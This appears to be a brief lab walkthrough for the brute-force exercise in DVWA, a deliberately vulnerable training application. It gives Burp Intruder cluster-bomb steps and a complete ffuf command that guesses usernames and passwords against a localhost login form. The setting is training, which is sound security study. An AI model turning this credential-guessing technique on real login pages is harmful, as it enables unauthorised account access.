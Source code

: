 # 🧪 DVWA

## Vulnerabilities

### Bruteforce

#### 🟢 Difficulty: Low

- Enter an invalid username and password in the login form.
- Send the request to intruder in burp.
- Use cluster bomb as attack and choose two wordlist one each for username and password.
- Start attack and wait for 200 response code.

Note: Use FFUF to bruteforce the username and password much faster using a wordlist in commandline.

```
ffuf -w username_wordlist.txt:USERFUZZ -w password_wordlist.txt:PASSFUZZ -u "http://localhost/DVWA/vulnerabilities/brute/?username=USERFUZZ&password=PASSFUZZ&Login=Login" -mr "Welcome" -b "security=low; PHPSESSID=p1l3cdhnalnedjle9fnkb0tda7" -H "Referer: http://localhost/DVWA/vulnerabilities/brute"
```
